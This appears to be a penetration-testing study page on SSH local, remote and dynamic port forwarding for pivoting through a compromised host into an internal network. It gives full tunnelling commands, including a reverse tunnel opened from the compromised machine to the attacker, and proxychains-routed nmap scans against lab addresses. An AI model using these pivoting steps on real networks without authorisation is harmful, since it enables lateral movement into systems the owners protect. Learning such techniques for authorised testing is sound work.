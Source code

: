 # SSH Port Forwarding

## Local Port Forwarding

**Forwarding a port from attackers machine to a port on the compromised machine to access a specific port of a target host in the internal network.**

{% hint style="info" %}
No root access needed on compromised machine.
{% endhint %}

#### run this command on your attacking machine:

```text
ssh -N -L localhost:localport:targethost:targetport [username@middlehost]
```

* localhost : attackers machine local ip address, usually use 0.0.0.0 for all interfaces.
* local port : port on attackers machine, will be used for connection later
* target host / port : ip and port of the target machine inside the internal network that we want to access
* middlehost : the compromised machine that is going to be used as a pivot  point.

{% hint style="warning" %}
**If you are targeting a specific protocol like SMB, all port numbers should be the same**.
{% endhint %}

#### example for smb port 445:

```text
ssh -N -L 0.0.0.0:445:192.168.1.110:445 student@10.11.0.128
```

test the connection:

```text
nmap  127.0.0.1 -p 445
```

## Remote Port Forwarding

#### The reverse of local port forwarding. a port is opened on the compromised remote machine and the traffic sent to that port is forwarded to attackers local port \(ssh client\).

{% hint style="danger" %}
**SSH port forwards can be run as non-root users as long as we only bind unused non-privileged local ports \(above 1024\).**

SSH configurations on the attacker machine must allow remote connection to the given user and you have to enter the user password so **don't use the root account on your machine if you don't trust the middle host.**

**I will explain how to secure remote port forwarding connections in a bit.**
{% endhint %}

#### Run this command on the middle host \(compromised target\).

```text
ssh -N -R attackerhost:attackerport:middlehost:middleport [username@attackerhost]
```

{% hint style="info" %}
Port numbers don't have to be the same here. 
{% endhint %}

example for MySQL service port 3306:

```text
ssh -N -R 10.11.0.4:2221:127.0.0.1:3306 kali@10.11.0.4
```

test from attacker machine:

```text
nmap -sV 127.0.0.1 -p 2221
```

### Secure Remote Port Forwarding

In situations when you dont trust the middle host \(compromised pivot machine\) its a huge risk to your security if you use the root account or enter the password in the ssh connection. also if you are running the command in a non-interactive shell you will run into a hurdle .

#### to avoid entering our password and having problems wtih non-interactive shells we can use a few ssh command options.

#### first create a pair of ssh keys to use instead of plain-text password:

```text
# on compromised middle host enter:

mkdir keys
cd keys
ssh-keygen
```

#### now the new public key needs to be entered in our attacker host’s authorized\_keys file for the attacker user:

```text
# on compromised middle host enter:
cat id_rsa.pub

# copy the public key to your kali machine authorized_keys file with the security options
```

#### To avoid potential security issues we can tighten the ssh configuration only permitting access coming from the middle host IP, then we need to ignore any commands that the user supplies with ssh command options. we also need to prevent agent and x11 forwarding with no-agent-forwarding and no-x11-forwarding options. finally we want to prevent the user from being allocated a tty device with the no-tty option

the final **`~/.ssh/authorized_keys`** file on attacker machine will be like this:

![](../../.gitbook/assets/image%20%28265%29.png)

#### This entry allows the owner of the private key \(middle host\) to log in to our Kali machine but prevents them from running commands and only allows for port forwarding.

then we have to add some more ssh options:

**-f :** go to background

**-N :** not running commands

**UserKnownHostsFile=/dev/null :** prevent ssh from attempting to save the host key by sending the output to /dev/null

**StrictHostKeyChecking=no** : don't prompt us to accept the host key

#### the final ssh command:

```text
ssh -f -N -R attackerhost:attackerport:middlehost:middleport -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" -i keys/id_rsa user@attackerhost
```

## Dynamic Port Forwarding

#### Allows us to set a local listening port and have it tunnel incoming traffic to any remote destination through the use of a proxy. this way we can use all of the ports from the pivot machine.

{% hint style="warning" %}
For this technique to work, we need proxychains or other proxy tools.
{% endhint %}

the syntax is like this:

```text
ssh -N -D <attackerhost>:<attackerport> <username>@<middle host>
```

#### With the above syntax in mind, we can create a local SOCKS4 application proxy \( -N -D \) on our attacker machine on TCP port 8080 \( 127.0.0.1:8080 \), which will tunnel all incoming traffic to any host in the target network, through the compromised pivot machine, which we log into.

example:

```text
sudo ssh -N -D 127.0.0.1:8080 student@10.11.0.128
```

#### Now we must somehow direct our reconnaissance and attack tools to use this proxy. We can run any network application through HTTP, SOCKS4, and SOCKS5 proxies with the help of ProxyChains.

#### we simply edit the main configuration file  `/etc/proxychains.conf` and add our SOCKS4 proxy to it:

![](../../.gitbook/assets/image%20%28264%29.png)

{% hint style="warning" %}
Make sure that there are no ther proxy IPs in proxychains config file and the specified port is the same as the port in the SSH command.
{% endhint %}

{% hint style="info" %}
By default, ProxyChains will attempt to read its configuration file first from the current directory, then from the user’s $\(HOME\)/.proxychains directory, and finally from /etc/proxychains.conf. This allows us to run tools through multiple dynamic tunnels, depending on our needs. we can use the -f options with proxychains to specify the path to the configuration file we want to use.
{% endhint %}

#### To run our tools through our SOCKS4 proxy, we prepend each command with proxychains

```text
proxychains nmap -sT -Pn -n 192.168.1.110  # must use -sT option
```

{% hint style="warning" %}
**In a dynamic port forwarding we have to use -sT option with nmap to run a full TCP connect scan. other scan methods dont work since we are using a proxy.**
{% endhint %}

